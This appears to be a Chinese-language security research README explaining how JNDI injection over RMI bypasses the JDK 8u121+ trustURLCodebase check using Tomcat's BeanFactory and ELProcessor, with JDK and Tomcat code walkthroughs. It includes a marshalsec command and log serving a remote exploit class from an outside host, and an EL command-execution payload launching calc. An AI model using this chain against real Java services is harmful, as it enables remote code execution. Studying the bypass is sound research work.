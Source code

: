 # 参考
- [marshalsec启动的普通RMI服务器](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/RMIRefServer.java#L299)
- [自己写的普通的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/NormalRMIServer.java)
- [绕过的基于Tomcat的RMI服务器](https://github.com/shadowsock5/JDNI-Bypass-JDK-By-RMI/blob/master/TomcatRMIServer.java)


# JDNI-Bypass-JDK8u121-By-RMI

```bash
javac -cp  "D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" .\TomcatRMIServer.java
java -cp ".;D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" TomcatRMIServer
```

![](imgs/RMI-JDK-bypass-EL-injection-test.gif)

# 代码调用流程

## 1、使用常规的marshalsec启动RMI服务：
```bash
java -cp D:\repos\marshalsec\target\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.85.1:8888/#ExploitWin
```

com.sun.jndi.rmi.registry.RegistryContext.java


```java
    public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```

这一步是实际发送RMI请求的地方，调用
jdk1.8.0_201\jre\lib\rt.jar!\sun\rmi\registry\RegistryImpl_Stub#lookup
```java

java.rmi.Remote var2 = this.registry.lookup(var1.get(0));
```

marshalsec的控制台打印log：
```
Have connection from /a.b.c.d:45904
Reading message...
Is RMI.lookup call for ExploitWin 2
Sending remote classloading stub targeting http://192.168.85.1:8888/ExploitWin.class
Closing connection
```

拿到Remote对象（具体地，是com.sun.jndi.rmi.registry.ReferenceWrapper对象）之后，继续调用：
jdk1.8.0_201\jre\lib\rt.jar!\com\sun\jndi\rmi\registry\RegistryContext.class#decodeObject(Remote var1, Name var2)
```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            Reference var8 = null;
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } else if (var3 instanceof Referenceable) {
                var8 = ((Referenceable)((Referenceable)var3)).getReference();
            }

            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

因为ReferenceWrapper extends UnicastRemoteObject implements RemoteReference
所以它是instanceof RemoteReference，于是调用((RemoteReference)var1).getReference()
```java
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } 
```
然后调用
```java
            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
```
这里if有三个条件，同时满足的情况下会抛出异常。无法进入后面的NamingManager.getObjectInstance了。

第一个条件，肯定var8不为null，它是var3赋值过来的；
第三个条件，在8u121及以上，这个类都有这么一个static代码块，使`com.sun.jndi.rmi.object.trustURLCodebase`设置为false。
```java
    static {
        PrivilegedAction var0 = () -> {
            return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
        };
        String var1 = (String)AccessController.doPrivileged(var0);
        trustURLCodebase = "true".equalsIgnoreCase(var1);
    }
```
第二个条件，
```java
var8.getFactoryClassLocation() != null
```
所以只能寄希望于`var8.getFactoryClassLocation()`返回null了。


## 2、使用绕过方式启动RMI服务

### javax.naming.spi.NamingManager#getObjectInstance

```java
// 拿到factory的name，这里是我们通过Reference传进去的org.apache.naming.factory.BeanFactory
String f = ref.getFactoryClassName();

// 从这个名字，和Reference中拿到ObjectFactory
ObjectFactory factory = getObjectFactoryFromReference(ref, f);

// 最后调用这个
factory.getObjectInstance(ref, name, nameCtx, environment);
```
												
### => org.apache.naming.factory.BeanFactory#getObjectInstance
```java
String beanClassName = ref.getClassName();    // 拿到class的名字，这里是javax.el.ELProcessor

// 使用类加载器TomcatEmbeddedWebappClassLoader加载javax.el.ELProcessor这个类
ClassLoader tcl = Thread.currentThread().getContextClassLoader();
beanClass = tcl.loadClass(beanClassName);


// 使用其无参构造器构造出这个实例（所以我们构造的这个beanClass需要有无参的构造器）
Object bean = beanClass.getConstructor().newInstance();

// 从ref中拿到forceString这个字段的值（所以需要我们之前构造好）
RefAddr ra = ref.get("forceString");

String value = (String)ra.getContent();

// 如果是,分割的话，将这个内容分割成字符串数组
String[] var18 = value.split(",");

// 对于这个数组中的每一个成员，propName=等号后面的值，param是等号前面的值
int index = param.indexOf(61);  // indexOf(61)就是indexOf("=")
if (index >= 0) {
    propName = param.substring(index + 1).trim();    // eval
    param = param.substring(0, index).trim();        // x
	
// 最后将这个隐射关系存到Map里，即将x这个字符串与eval(String )方法对应起来。
Map<String, Method> forced = new HashMap();
forced.put(param, beanClass.getMethod(propName, new Class[]{String.class}));

// 前面我们根据要实现javax.naming.spi.ObjectFactory接口找到了广泛存在的Tomcat8+中的org.apache.naming.factory.BeanFactory
// 而根据BeanFactory代码中的逻辑，得知我们要找到具有无参构造器，而且接收一个String类型作为参数。


// ra这里是javax.naming.StringRefAddr类型，对应我们之前设置的：
// ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));

value = (String)ra.getContent();    // Runtime.getRuntime().exec("calc")
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);   // propName是"x"
if (method != null) {
    valueArray[0] = value;
	
	// bean是javax.el.ELProcessor对象，这里是调用javax.el.ELProcessor#eval(valueArray)
    method.invoke(bean, valueArray);
    
```
